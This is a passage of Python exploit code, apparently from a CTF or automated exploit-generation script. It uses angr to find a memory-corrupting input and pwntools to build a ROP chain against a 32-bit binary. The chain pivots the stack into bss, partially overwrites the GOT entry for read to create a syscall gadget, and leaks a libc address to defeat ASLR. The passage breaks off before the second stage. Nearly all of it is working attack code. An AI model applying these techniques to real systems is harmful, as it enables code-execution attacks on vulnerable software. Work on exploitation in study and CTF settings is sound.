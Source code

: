 ```python

    simgr.explore(step_func=check_mem_corruption)
    if len(simgr.stashes['mem_corrupt']) == 0:
        log.warn("could not find memory corrupting input")
        exit(1)
    corrupting = simgr.stashes['mem_corrupt'][0].posix.dumps(0)
    payload = corrupting[:corrupting.index(b"DCBA")-4]

    pivoted_stack_1 = 0x0804b068 # start of bss + enough to not clobber important stuff

    exe = ELF("./current_binary")


    POP_EBX_RET = 0x08048371
    POP_EBX_RET = 0x08048371
    MOV_AX_4 = 0x080484f7
    # above gadgets are constant
    POP_EBP_RET = next(exe.search(b"\x5d\xc3"))
    INC_ECX_RET = next(exe.search(b"\x41\xc3"))
    LEAVE_RET = next(exe.search(b"\xc9\xc3"))
    RET = next(exe.search(b"\xc3"))

    # the first thing we want to do is pivot the stack
    # we're gonna have to commit some sins to get this to work and limited rop chain size isn't gonna do it
    pivot_payload = b""
    pivot_payload += p32(0x0804b09c-4)

    pivot_chain = ROP(exe)
    # step 1 is to overwrite the last byte of the read pointer
    # I used length to leave 4 in edx for a later write because read can receive fewer than len bytes
    pivot_chain.read(0, exe.got['read'], 4)
    # Step 2 is to write a pointer out of the GOT, allowing me to break ASLR and determine the version of libc on the server
    # ebx/file descriptor can be set by pop ebx gadget but we need to be more inventive for other arguments
    pivot_chain.raw(pivot_chain.ebx[0])
    pivot_chain.raw(1)
    # ecx is already the GOT entry of read because we read over the entry
    # we lack any easy pointers to control ECX but we can increment it four times to switch to the next entry in the GOT
    for i in range(4):
        pivot_chain.raw(INC_ECX_RET)
    # to write with a syscall gadget we need eax == 4
    # the only gadget I could find to do so is mov al, 4; or byte ptr [ecx], al; leave; ret; 
    # ecx at this point is the GOT entry to strlen which we can comfortably clobber because it is no longer needed
    pivot_chain.raw(MOV_AX_4)
    # we then increment ECX again to leak __libc_start_main
    for i in range(4):
        pivot_chain.raw(INC_ECX_RET)
    # and lastly we call "read" which is actually a syscall gadget
    pivot_chain.raw(exe.symbols['read'])

    # to finish out this rop chain we need to set up for the next stage of this exploit
    # we will need to construct another rop chain with our new knowledge of libc base
    # 7 null words are garbage values which are consumed between read's syscall and ret
    for i in range(7):
        pivot_chain.raw(0)
    # these ret gadgets make the stack pointer far enough from the base that calling into the dynamic linker will not segfault
    # i ran into issues with it segfaulting because it hit the base of bss
```